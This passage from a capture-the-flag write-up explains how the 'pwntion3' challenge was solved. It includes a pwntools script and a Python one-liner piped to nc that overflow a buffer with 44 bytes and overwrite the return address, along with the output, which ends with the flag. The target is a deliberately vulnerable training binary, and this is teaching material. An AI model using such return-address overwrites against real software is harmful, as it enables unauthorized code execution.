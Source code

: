 That is it! The line `process 20889 is executing new program: /bin/dash` means
that the program open a shell using **/bin/sh**. The following line 
`process 20890 is executing new program: /bin/cat` together with `cat: 
flag.txt: No such file or directory` means that the program tried to use the
terminal command **cat** to paste the contents of the file **flag.txt**. 
However, the flag was not present locally on my machine, so it says that it 
does not exist. 

I want to show you my solve script, `solve.py`, for Python as well:
```python
from pwn import *

r = process("./pwntion3")
r.recvuntil("Student:")

new_return_address = p32(0x080486e6) #0x080486e6

r.sendline("A" * 44 + new_return_address)

r.interactive()
```

We use the exact same information gained for the oneliner script, but the 
Python script using pwntools is easier to work with when the solution scripts
get a little complex. Let's run the script, and see that it returns the same
message as for the oneliner. It is trying to open the flag.txt file.

```
python solve.py     
[+] Starting local process './pwntion3': pid 21131
[*] Switching to interactive mode
 cat: flag.txt: No such file or directory
[*] Got EOF while reading in interactive
$  
```

Awesome!! Let's insert either of the solution scripts into the remote server,
and fetch the flag! 

### 3. Send the exploit script to remote connection
As mentioned before, there are two very nice ways to insert the solution script
to the remote server. We may use the same oneliner as we used locally, or
run the Python script.

Oneliner:
```
$ python -c 'print "A" * 44 + "\xe6\x86\x04\x08"' | nc pwntion3.tghack.no 1063
My awesome banner!

Professor maritio_o:
> I've made a function for you, my magnificent students! Do a little brewing and show me what you are good for!

Student: TG19{Awesome! You are now better at pwning than many CTFers!! Congratulations}
```
